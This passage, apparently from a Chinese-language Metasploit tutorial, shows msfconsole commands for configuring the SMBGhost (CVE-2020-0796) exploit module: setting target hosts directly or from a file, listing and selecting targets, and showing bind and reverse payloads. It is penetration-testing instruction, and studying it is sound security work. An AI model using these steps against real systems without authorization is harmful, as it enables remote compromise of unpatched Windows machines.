 ```

View the full module info with the info, or info -d command
```

设置 rhosts

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set rhosts 192.168.1.53
```

> 或者将目标保存至 /root/rhosts.txt
>
> ```shell
> ┌──(root㉿kali)-[~]
> └─# vim /root/rhosts.txt
> ```
>
> ```
> 192.168.1.4
> 192.168.1.5
> 192.168.1.6
> ```
>
> 再使用 file:// 协议设置 rhosts
>
> ```
> msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set rhosts file:///root/rhosts.txt
> ```

显示 targets

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > show targets
```

```
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows 10 v1903-1909 x64
```

选择 targets

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > use 0
```

显示相关的 payloads

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > show payloads
```

> 正向连接：bind
>
> 方向连接：reverse
